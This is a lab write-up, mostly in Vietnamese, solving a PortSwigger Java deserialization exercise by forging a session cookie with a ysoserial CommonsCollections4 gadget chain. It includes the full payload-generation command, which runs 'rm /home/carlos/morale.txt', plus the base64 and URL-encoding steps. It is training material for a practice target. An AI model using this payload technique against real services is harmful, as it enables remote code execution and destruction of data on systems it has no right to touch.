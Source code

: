 
# Target Goal: 

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

# Recon: 

Sau khi login, ta sẽ có session được cấp: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/97c9aa2d-8baa-446c-9705-cd9fa67a36c1)

Thử đem đi dcode sang b64 ta nhận thấy đây là java serialize:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b688681f-a34f-4d5d-b693-0a4b9e81e4e5)

Chúng ta cần sử dụng tool của bên thứ 3 .Và công cụ phổ biến để exploit Apache Common là `ysoserial`. `ysoserial` là 1 tool thường được dùng đẻ khai thác lỗ hổng liên quan đến Java deserialization tạo ra các object thông qua gadget chain ứng với thư viện có sẵn.
```
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > cookie.txt

// Chỉ gói 4 mới hoạt độngh đúng gói của nó sâu khi sử dụng các gói khác
// -w 0 đảm bảo rằng chuỗi base64 được xuất ra trên một dòng duy nhất, không có ngắt dòng
```

Thay value apply lại web, và nó xuất hiện lỗi này:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3988bea9-137e-4140-87cf-c66e78df27a9)

Lý do là vì có các byte chưa được xử lí đúng và encode URL:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c3ea67f8-7ca4-4fa6-8bbf-209fd74aff58)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/72d569ee-83b6-45be-9792-ebaa5c28e23a)
